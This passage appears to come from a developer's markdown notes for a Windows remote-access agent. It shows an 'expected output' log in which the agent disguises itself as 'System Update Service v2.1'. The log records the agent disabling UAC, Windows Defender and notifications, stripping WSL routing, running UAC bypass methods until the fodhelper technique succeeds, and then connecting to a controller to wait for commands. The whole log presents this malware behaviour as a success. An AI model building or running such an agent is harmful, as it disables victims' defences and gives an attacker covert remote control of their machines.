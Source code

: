 ```
    ↓
14. Admin gained, agent runs
    ✅ Success!
```

---

## 📊 EXPECTED OUTPUT NOW

### **Successful Run:**

```
PS C:\Users\Brylle\render deploy\controller> python client.py

[STARTUP] Python Agent Starting...
[STARTUP] Initializing components...
[STARTUP] === SYSTEM CONFIGURATION STARTING ===
[STARTUP] Step 0: Disabling WSL routing (AGGRESSIVE)...
[WSL] Disabling WSL command routing...
[WSL] Removed WSL from PATH environment
[WSL] Forced COMSPEC to: C:\Windows\System32\cmd.exe
✅ [WSL] WSL routing disabled successfully!
[STARTUP] ✅ WSL routing disabled - commands will use CMD.exe directly

[STARTUP] Step 1: Disabling UAC...
[REGISTRY] Attempting to open UAC registry key...
[REGISTRY] UAC disabled successfully
[STARTUP] ✅ UAC disabled successfully

[STARTUP] Step 2: Disabling Windows Defender...
[DEFENDER] Attempting to disable Windows Defender...
[STARTUP] ✅ Windows Defender disabled successfully

[STARTUP] Step 3: Disabling Windows notifications...
[NOTIFICATIONS] Disabling Windows notifications...
[STARTUP] ✅ Notifications disabled successfully

[STARTUP] === SYSTEM CONFIGURATION COMPLETE ===

[STARTUP] Calling main_unified()...

============================================================
System Update Service v2.1
Initializing system components...
============================================================

[UAC MANAGER] Initialized 9 UAC bypass methods
[UAC MANAGER] 9/9 methods available

🔒 Not running as admin - attempting automatic elevation...
[UAC MANAGER] Trying 9 UAC bypass methods...
[UAC MANAGER] Attempt 1/9: fodhelper
✅ [UAC BYPASS] SUCCESS! Method Fodhelper Protocol worked!

✅ Agent connected to controller
✅ Waiting for commands...
```
